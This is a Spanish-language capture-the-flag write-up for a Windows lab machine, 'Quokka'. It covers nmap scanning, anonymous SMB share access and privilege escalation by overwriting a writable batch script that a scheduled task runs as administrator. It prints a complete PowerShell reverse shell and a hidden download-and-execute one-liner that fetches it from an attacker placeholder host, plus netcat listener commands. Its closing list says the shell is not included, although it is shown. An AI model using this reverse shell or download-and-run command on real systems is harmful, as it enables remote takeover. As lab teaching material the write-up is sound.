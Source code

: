 # 🏴‍☠️ Write-up — CTF Windows: Quokka

## 🔍 1. Escaneo de puertos

Realizamos un escaneo con `nmap` que reveló varios servicios abiertos:

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.56 -oN escaneo.txt
```

<img width="740" height="629" alt="3-nmap" src="https://github.com/user-attachments/assets/9af70c1d-1b1a-4530-8628-d7351bdfffe5" /><br>

### Puertos relevantes encontrados:
- `80/tcp` → Microsoft IIS 10.0
- `135/tcp`, `139/tcp`, `445/tcp` → Servicios SMB
- `5985/tcp` → WinRM
- Muchos puertos MSRPC (49664–49672)

---

## 📁 2. Enumeración de recursos compartidos (SMB)

```bash
smbclient -L //192.168.1.56 -N
```

<img width="443" height="109" alt="4-smbclient" src="https://github.com/user-attachments/assets/f16242c2-909e-4b77-87c0-0f16b8202a2e" /><br>

Se encontró el recurso **`Compartido`**, accesible anónimamente.

---

## 🗂 3. Navegación por carpetas compartidas

Accedimos a:

```bash
smbclient //192.168.1.56/Compartido -N
```

Carpetas exploradas:
- `Documentación` → Contenía archivos `.pptx` y `.pdf`, pero vacíos
- `Logs`, `Proyectos`

Dentro de **`Proyectos/Quokka`**, encontramos:
- `Documentación_Interna.docx` → Indicaba que el proyecto era interno
- Carpeta `Código` con archivos `.bat`. El más prometedor -> `mantenimiento - copia.bat`

---

## 💣 4. Identificación de escalada de privilegios

En `Código/`, descubrimos:

- `mantenimiento - copia.bat` con el siguiente contenido clave:
  
  ```bat
  :: Este script se ejecuta con permisos de administrador cada minuto
  move "C:\Logs\*.log" "C:\Backup\OldLogs\"
  del /q "C:\Temp\*.*"
  ```

💡 Esto reveló una **tarea programada que ejecuta el script como administrador**, lo que permite acceso con una **escalada de privilegios por sustitución de script** si tenemos permisos de escritura.

---

## ✍️ 5. Confirmación de permisos de escritura

Subimos un archivo de prueba con:

```bash
put prueba.txt
```

✅ Confirmado: podemos escribir en la carpeta donde se encuentra el script `mantenimiento.bat`.

---

## 🔥 6. Payload de reverse shell

Creamos un `shell.ps1` con una reverse shell en PowerShell y un `malicioso.bat` que lo descarga y ejecuta automáticamente:
- `shell.ps1`
  
```powershell
$client = New-Object System.Net.Sockets.TCPClient("TU_IP",4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
 $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
 $sendback = (iex $data 2>&1 | Out-String );
 $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
 $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
 $stream.Write($sendbyte,0,$sendbyte.Length);
 $stream.Flush()
}
$client.Close()
```
- `malicioso.bat`
  
```bat
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://TU_IP:8000/shell.ps1')"
```

---

## 📤 7. Sustitución del script original

```bash
put malicioso.bat mantenimiento.bat
```

---

## 📡 8. Servidor HTTP y escucha con Netcat

```bash
python3 -m http.server 8000
nc -lvnp 4444
```

---

## 🏁 9. Shell recibida como administrador

Tras un minuto:

```powershell
whoami
# win-vru3gg3dp1j\administrador
```

✔️ Escalada de privilegios completada.

---

## ✅ Técnicas utilizadas

- Enumeración de SMB anónima
- Acceso a recursos compartidos
- Identificación de script con permisos elevados
- Escalada por **escritura en script ejecutado como SYSTEM**
- Reverse shell en PowerShell (no incluida)
- Sustitución de script por payload malicioso

